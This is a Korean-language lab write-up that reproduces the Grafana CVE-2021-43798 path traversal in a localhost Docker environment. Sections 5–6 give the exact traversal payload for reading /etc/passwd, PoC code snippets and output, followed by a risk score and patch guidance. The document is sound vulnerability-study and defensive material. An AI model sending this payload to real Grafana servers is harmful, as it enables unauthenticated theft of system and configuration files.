

# Grafana CVE-2021-43798 Path Traversal 취약점 실습

## 1. 취약점 요약

CVE-2021-43798은 Grafana의 플러그인 정적 파일 제공 경로에서 발생하는 Path Traversal 취약점이다. 공격자는 인증 없이 `/public/plugins/<plugin-id>/` 경로에 `../`를 포함한 요청을 보내 서버 내부의 로컬 파일을 읽을 수 있다.

- CVE: CVE-2021-43798
- 제품: Grafana
- 실습 버전: Grafana 8.2.6
- 취약점 유형: Path Traversal / Arbitrary File Read
- 영향: 인증되지 않은 공격자가 Grafana 프로세스가 접근 가능한 로컬 파일을 읽을 수 있음
- 예시 영향 파일: `/etc/passwd`, `/usr/share/grafana/conf/defaults.ini`

## 2. 환경 구성

본 실습은 Docker Compose를 이용해 Grafana 8.2.6 취약 환경을 구성한다.  
Dockerfile은 Grafana 공식 tar.gz 배포 파일을 내려받아 취약 버전을 직접 구성하며, `amd64`와 `arm64` 환경을 모두 지원한다.

### 파일 구성

```text
Grafana/CVE-2021-43798/
├── .gitignore
├── Dockerfile
├── docker-compose.yml
├── poc.py
├── README.md
└── images/
    └── result.png
```

### 실행 환경

- Docker
- Docker Compose
- Python 3

### 취약 환경 실행

```bash
docker compose up -d --build
```

구버전 Docker Compose 환경에서는 다음 명령을 사용할 수 있다.

```bash
docker-compose up -d --build
```

컨테이너 상태 확인:

```bash
docker compose ps
```

또는:

```bash
docker-compose ps
```

본 실습 환경은 취약한 Grafana를 내부망에 노출하지 않기 위해 localhost에만 바인딩한다.

```yaml
ports:
  - "127.0.0.1:3000:3000"
```

## 3. 취약 조건

이 취약점이 재현되기 위한 조건은 다음과 같다.

1. Grafana가 CVE-2021-43798에 취약한 버전이어야 한다.
2. 공격자가 Grafana 웹 서비스에 HTTP 요청을 보낼 수 있어야 한다.
3. 요청 경로에 사용할 수 있는 Grafana 플러그인 ID가 존재해야 한다.
4. `/public/plugins/<plugin-id>/` 경로에서 `../`를 이용한 상위 디렉터리 접근이 차단되지 않아야 한다.

본 실습에서는 Grafana 기본 플러그인인 `alertlist`를 사용해 `/etc/passwd` 파일을 읽는다.

## 4. 재현 절차

### 4.1 취약 환경 실행

```bash
docker compose up -d --build
```

또는:

```bash
docker-compose up -d --build
```

### 4.2 컨테이너 상태 확인

```bash
docker compose ps
```

또는:

```bash
docker-compose ps
```

정상 실행 시 Grafana 컨테이너가 `Up` 상태이고, `127.0.0.1:3000->3000/tcp` 형태로 포트가 바인딩된다.

### 4.3 PoC 실행

```bash
python3 poc.py http://localhost:3000
```

`poc.py`는 Grafana가 완전히 준비될 때까지 대기한 뒤 취약점 재현을 시도한다.

### 4.4 실습 환경 정리

```bash
docker compose down -v
```

또는:

```bash
docker-compose down -v
```

## 5. PoC 코드

PoC는 Grafana의 플러그인 정적 파일 경로에 directory traversal payload를 포함해 요청한다.

핵심 요청 경로는 다음과 같다.

```text
/public/plugins/alertlist/../../../../../../../../../../etc/passwd
```

`curl`은 상황에 따라 경로의 `../`를 정규화할 수 있으므로, 본 실습에서는 Python의 `http.client`를 사용해 요청 경로를 직접 구성했다.

PoC 핵심 코드:

```python
traversal = "../" * 10
path = f"/public/plugins/{plugin}/{traversal}{target_file.lstrip('/')}"
status, body = request_raw(base_url, path)
```

Grafana 컨테이너가 시작된 직후에는 웹 서버가 아직 준비되지 않았을 수 있으므로, PoC에는 `/login` 경로를 이용한 대기 로직을 포함했다.

```python
status, _ = request_raw(base_url, "/login")
if status in (200, 302):
    print("[+] Grafana is ready.")
```

전체 PoC 코드는 `poc.py` 파일에 포함되어 있다.

## 6. 실행 결과

PoC 실행 결과, 인증 없이 `/etc/passwd` 파일을 읽을 수 있음을 확인했다.

```text
[*] Target: http://localhost:3000
[*] Waiting for Grafana to be ready...
[+] Grafana is ready.
[*] Trying CVE-2021-43798 path traversal payloads...
[+] Vulnerability reproduced!
[+] Plugin ID: alertlist
[+] Leaked file: /etc/passwd
```

실행 결과 화면:



## 7. Risk Score

제안 Risk Score: 7.5 / 10.0

근거는 다음과 같다.

- Attack Vector: Network
- Attack Complexity: Low
- Privileges Required: None
- User Interaction: None
- Scope: Unchanged
- Confidentiality Impact: High
- Integrity Impact: None
- Availability Impact: None

이 취약점은 원격에서 인증 없이 악용 가능하며, 서버 내부 파일을 읽을 수 있다는 점에서 위험도가 높다. 다만 본 실습에서 확인한 영향은 파일 읽기에 한정되며, 직접적인 명령 실행이나 서비스 중단은 확인하지 않았으므로 Risk Score를 7.5로 산정했다.

## 8. 대응 방안

1. Grafana를 패치 버전으로 업데이트한다.
   - 8.0.x 사용 시 8.0.7 이상
   - 8.1.x 사용 시 8.1.8 이상
   - 8.2.x 사용 시 8.2.7 이상
   - 8.3.x 사용 시 8.3.1 이상

2. Grafana 관리 포트를 외부에 직접 노출하지 않는다.

3. Reverse Proxy 또는 방화벽에서 `/public/plugins/` 경로에 대한 비정상적인 `../` 요청을 탐지하고 차단한다.

4. 컨테이너 실행 시 최소 권한 원칙을 적용한다.

5. Grafana 설정 파일, 데이터베이스 파일, 인증 정보가 Grafana 프로세스 권한으로 불필요하게 노출되지 않도록 권한을 점검한다.

## 9. 참고 자료

- [Grafana Security Advisory: GHSA-8pjx-jj86-j47p](https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p)
- [NVD: CVE-2021-43798](https://nvd.nist.gov/vuln/detail/CVE-2021-43798)
